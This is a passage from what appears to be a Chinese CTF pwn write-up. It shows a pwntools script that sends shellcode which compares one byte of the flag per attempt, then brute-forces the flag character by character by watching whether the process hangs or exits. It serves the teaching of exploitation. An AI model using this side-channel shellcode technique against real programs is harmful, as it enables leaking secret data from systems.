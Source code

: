 ```plain
            syscall
            mov dl, byte ptr [rsi+{}]
            mov cl, {}
            cmp cl,dl
            jz loop
            mov al,60
            syscall
            loop:
            jmp loop
            '''.format(dis,char))
    p.send(shellcode)
flag = "flag{"

for i in range(len(flag),35):
    sleep(1)
    log.success("flag : {}".format(flag))
    for j in range(0x20,0x80):
        p = process('./pwn')
        try:
            exp(i,j)
            p.recvline(timeout=1)
            flag += chr(j)
            p.send('\n')
            log.success("{} pos : {} success".format(i,chr(j)))
            p.close()
            break
        except:           
            p.close()
```

[![](assets/1701612140-6af9f1a7db93068fa8754358f53752fe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230815203714-768b8ff8-3b68-1.png)

解释一下exp，主要是解释shellcode
